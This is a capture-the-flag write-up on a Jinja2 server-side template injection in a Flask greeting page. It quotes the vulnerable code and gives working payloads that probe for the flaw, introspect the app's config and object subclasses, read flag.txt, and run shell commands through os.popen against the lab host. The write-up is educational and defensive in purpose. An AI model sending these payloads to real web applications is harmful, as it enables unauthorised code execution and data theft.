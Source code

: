 # Why Hello There - SSTI Vulnerability
**Description**: 
- *Hints*: Always be sure to sanitize user input!... Even ones that are not always visually obvious at first glance.

## Introduction

Server-Side Template Injection (SSTI) is a vulnerability that allows an attacker to inject malicious templates into a web application, potentially leading to Remote Code Execution (RCE) or information disclosure. SSTI vulnerabilities arise when user input is dynamically inserted into templates and then rendered by the server-side template engine without proper sanitization or validation.

In this challenge, we explore an SSTI vulnerability within a Flask web application. Flask is a popular Python web framework that includes support for Jinja2 templating. Jinja2 is powerful but can be susceptible to SSTI if not properly secured.

## Challenge Overview

The provided source code defines a simple Flask application serving a blog-like website. The application uses the `render_template_string` function from Flask, which dynamically renders templates based on user input. This function is used to customize a greeting message with the visitor's name, which is retrieved from URL parameters.

### Vulnerability Analysis

The critical line in the application is where `render_template_string` is used:

```python
name = request.args.get('name', 'CTF Player')
return render_template_string(f'''
...
<p>Hello {name}! This is a place where I share my thoughts and experiences.</p>
...
''')
```

The `name` parameter from the URL is inserted directly into the template. Since there is no sanitization of the `name` parameter, an attacker can exploit this by injecting a template syntax that can be executed by the server.

## Detecting the vulnerability
- This vulnerability can be detected by providing the following payload:
```
https://grizzhacks-why-hello-there.chals.io/?name={{7*7}}
```
![image](https://github.com/supaaasuge/GrizzCTF2024-Official/assets/158092262/f756f772-3327-449f-8171-f09c50ba57b8)
- As you can see, the name parameter changes to `49` within the template. This can be used to execute arbitrary code on the page. Further processable commands can be enumerated using the following:

##### Introspection

You may conduct introspection with the locals object using dir and help to see everything that is available to the template context. You can also use introspection to reach every other application variable. [This](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/search.py) script written by the DoubleSigma team will traverse over child attributes of request recursively. For example, if you need to reach the blacklisted config var you may access it anyway via:
```
{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}
```
##### Extracting classes from the application
```
{{config.items}}
{{''.class.mro()[1].subclasses()}}
```

### Exploiting SSTI in Flask

To exploit this vulnerability, an attacker can craft a payload that the Jinja2 template engine will execute. The goal is to read the contents of `flag.txt`.

A common approach to achieve this is to leverage Jinja2's ability to access Python's built-in attributes and functions through the template. An attacker can use this capability to execute arbitrary Python code.

#### Payload to Read `flag.txt`

The payload to exploit this SSTI vulnerability and read the contents of `flag.txt` on a Windows machine might look something like this:

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read() }}
```

This payload works by accessing Python's built-in attributes to open and read a file. The steps are as follows:

1. `''.__class__.__mro__[2]` accesses the `object` base class.
2. `__subclasses__()` lists all subclasses of `object`, where one of them is typically the `file` class or a class that can be used to open files.
3. The index `[40]` (which might need adjustment based on the Python environment) is assumed to be the class that can open files.
4. `('flag.txt').read()` attempts to open `flag.txt` and read its contents.

### Conclusion

This challenge demonstrates the critical importance of sanitizing and validating all user inputs, especially when those inputs are used within template engines like Jinja2 in Flask applications. SSTI vulnerabilities can lead to significant security risks, including unauthorized access to sensitive data and system command execution. Always ensure user inputs are handled securely to prevent such vulnerabilities.


I.e.,
```
https://MACHINE_IP:10000/?name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```
OR

```
http://MACHINE_IP:10000/?name={{config.__class__.__init__.__globals__[%27__builtins__%27][%27__import__%27](%27os%27).popen(%27type%20flag.txt%27).read()}}
```
![image](https://github.com/supaaasuge/GrizzCTF2024-Official/assets/158092262/c3db20d4-e983-4e92-a905-badd5fcdb734)

